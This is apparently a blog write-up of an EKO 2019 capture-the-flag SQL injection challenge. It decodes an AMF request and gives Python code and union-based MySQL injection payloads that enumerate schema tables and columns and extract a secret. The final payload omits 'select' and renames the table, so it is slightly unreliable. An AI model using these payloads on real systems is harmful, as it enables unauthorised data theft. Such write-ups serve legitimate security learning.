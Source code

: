 ```yaml
---
layout: post
title: Weirdo (SQLi writeup - EKO 2019)
---
```


Quick writeup of a SQL injection challenge.

<!-- more -->
We start with a
[pcap](/book-of-gehn/assets/eko2019-writeups/weiro-dir/wtf.pcap)
of a HTTP communication between a client and a server.

It is only one request/response.

With ``wireshark`` we can see that the parties are talking using
[AMF](https://en.wikipedia.org/wiki/Action_Message_Format)

Here is the decoded ``POST``:

```
Hypertext Transfer Protocol
    POST / HTTP/1.1
    Content-type: application/x-amf
    Content-Length: 40
Action Message Format
    AMF version: 0
    Header count: 0
    Message count: 1
    Messages
        Target URI: EKO.CTF
        Response URI: /1
        Length: Unknown
        ECMA array (1 items)
            AMF0 type: ECMA array (0x08)
            Array length: 0
            Property 'q' String 'arg'
                Name: q
                    String length: 1
                    String: q
                String 'arg'
                    AMF0 type: String (0x02)
                    String length: 3
                    String: arg
            End Of Object Marker
```

### Brief AMF Disassemble

In particular, this is the hexdump of the AMF message:

```
0000   00 00 00 00 00 01 00 07 45 4b 4f 2e 43 54 46 00
0010   02 2f 31 ff ff ff ff 08 00 00 00 00 00 01 71 02
0020   00 03 61 72 67 00 00 09
```

From the end to the begin, the ``00 00 09`` is the
``End of Object Marker``, ``02 00 03 61 72 67`` is the
``arg`` string, in ASCII prefixed with 2 bytes that
determines its length in big endian and all of that is
prefixed with on byte, ``02`` that says what follows is
a string.

I'm going to stop here as my understanding of AMF is quite
low and it deserves a separate post.

Playing with the value of the query, this ``arg``, is all
what we need to get some fun.

Replacing ``arg`` with ``'xx`` we get a database error showing
that the server is vulnerable to a SQL injection.

So you know what I'm talking about.


### Custom Queries

Before playing, we need a simple way to submit custom queries.

We treat the AMF message as an opaque string, the only thing
that we need is to inject an arbitrary string ``q`` prefixed
with its size.

```python
>>> from cryptonita import B

>>> hdr = '''
... 00 00 00 00 00 01 00 07 45 4b 4f 2e 43 54 46 00
... 02 2f 31 ff ff ff ff 08 00 00 00 00 00 01 71 02
... '''

>>> hdr = B(hdr, encoding=16)
>>> eom =  B('00 00 09', encoding=16)

>>> def payload(q):
...     q  = B(q)
...     sz = B(len(q))
...
...     sz = sz.pack('>H') # uint16, big endian
...     return hdr + sz + q + eom
```

We wrap this into a HTTP POST.

```python
import requests

def post(q):
    url = 'https://wtf.eko.cap.tf/'
    data = payload(q)

    r = requests.post(url, data=data)
    for chunk in r.content.split(b'network'):
        chunk = B([c for c in chunk if chr(c).isprintable()])
        print(chunk)
```

The response is also a AMF message that we treat it as a binary blob.

For this reason we arbitrary split the response in chunks and we
filter out any non-printable char.

And *voila!* With ``post`` we can submit arbitrary queries and see their
responses.

### Prologue and Epilogue

We know that we are injecting in the middle of a SQL query but
we don't know *where*.

We may be injecting here

```
select ??? from ??? where ???='<here>' ;
```

but we may be injected here:

```
select ??? from ??? where ??? in (select ??? from ??? where ???='<here>' ???);
```

The possibilities are infinite.

If we *assume* the first case, we could try this:

 - a *prologue* of ``'`` to close the left side of the query
 - a *epilogue* of ``; --`` to close the statement and ignore anything
on the right.

```
>>> q = b"'; --"
```

The idea is that we transform the *host* query

```
select ??? from ??? where ???='<here>';
```

into this:

```
select ??? from ??? where ???=''; --';
```

But we were wrong. It failed.

Perhaps we are in the wrong spot, perhaps one of our injected characters
were filtered or our prologue and/or epilogue is wrong.

The ``--`` begins a comment. Each SQL engine has its own. The ``--`` works
in Oracle and under *some* conditions in MySQL.

The ``#`` works only in MySQL without any condition so we could try that:

```python
>>> q = b"'; #"
```

```
select ??? from ??? where ???=''; #';
```

And it worked! And we learnt that the database is a MySQL for free.

[Ref](http://www.sqlinjection.net/comments/)


### Deducing the Host Query Structure

Under the hypothetical host query:

```
select ??? from ??? where ???='<here>';
```

We could learn how many *columns* is using the ``select`` making the
query to order the results by the, let's say, the 10th column.

If it fails we now that it has less than 10 columns.

After some binary search, we learn that it has 5 columns:

```python
>>> q = b"' order by 5 ;#"    # 5 columns
```

```
select c1, c2, c3, c4, c5 from ??? where ???='' order by 5 ; #';
```

We can experiment further with:

```python
>>> q = b"' union select 99, 98, 97, 96, 95 from information_schema.tables ;#"
```

```
select ??? from ??? where ???='' union select 99, 98, 97, 96, 95 from information_schema.tables ;#';
```

This also validates that the database engine is a MySQL (``information_schema``
is MySQL specific) and that we can *union* the results.

The last confirms that the host query is just a ``select`` and we are
injecting in the ``where`` clause.


### Information Gathering

With this we can learn what other tables are in the database:

```python
>>> q = b"' and 1=0 union select 99, table_name, 97, 96, 95 from information_schema.tables ;#"
```

```
select ??? from ??? where ???='' and 1=0 union select 99, table_name, 97, 96, 95 from information_schema.tables ;#';
```

And with this one we can learn what columns has the table ``secret``, table that
found with the previous query and it has a interesting name.

```python
>>> q = b"' and 1=0 union select 99, column_name, 97, 96, 95 from information_schema.columns where table_name='secret' ;#"
```

```
select ??? from ??? where ???='' and 1=0 union select 99, column_name, 97, 96, 95 from information_schema.columns where table_name='secret' ;#';
```

In both cases the ``and 1=0`` makes the *host* query to produce zero results
and it makes the output much cleaner.


### Profit!

Finally:

```python
>>> q = b"' and 1=0 union 99, secret, 97, 96, 95 FROM secrets ;#"
>>> post(q)
<...>
EKO{ this is the flag }
<...>
```

```
select ??? from ??? where ???='' and 1=0 union 99, secret, 97, 96, 95 FROM secrets ;#';
```

